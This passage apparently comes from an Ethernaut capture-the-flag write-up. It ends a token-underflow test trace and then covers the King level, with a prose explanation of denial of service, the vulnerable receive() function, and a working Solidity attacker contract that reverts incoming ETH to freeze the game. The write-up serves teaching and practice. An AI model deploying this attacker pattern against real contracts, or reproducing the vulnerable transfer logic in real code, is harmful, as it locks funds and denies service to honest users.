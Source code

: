 ``` text
    ├─ Token::transfer(attacker, 21) → true
    ├─ assertTrue(true)
    ├─ Token::balanceOf(player) → 1.157e77
    ├─ assertGt(1.157e77, 20)
    └─ VM::stopPrank()

Suite result: ok. 1 passed; 0 failed; finished in 988.39µs
```
---

## Level 10:King
**AttackDesc**:
A Denial of Service (DoS) attack is when someone makes a smart contract stop working for others.
This usually happens if the contract sends Ether to a malicious address that always fails or reverts.
If one function fails because of this, others may not be able to use the contract.
In the King level, a smart contract becomes the king and blocks future kings by rejecting ETH.
This locks the contract and nobody else can play the game.
DoS attacks make the contract unusable for honest users.

### 🔍 Vulnerable Function

```solidity
receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value); // ❌ vulnerable to DoS
    king = msg.sender;
    prize = msg.value;
}

```

**Vulnerability**: The transfer call to the current king can fail if the king is a contract that reverts on receiving ETH. This leads to a Denial of Service (DoS) where no one can become king anymore.

### 🛠️  Exploit Contract 
```solidity
 contract Attacker {
    King public king;

    constructor(King _King) {
        king = _King;
    }

    function attack() public payable {
        require(msg.value >= address(king).balance, "Not enough balance");
        (bool success, ) = address(king).call{value: msg.value}("");
        require(success, "transfer failed");
    }

    receive() external payable {
        revert("sent eth failed"); // Reverts to block
    }
}
```
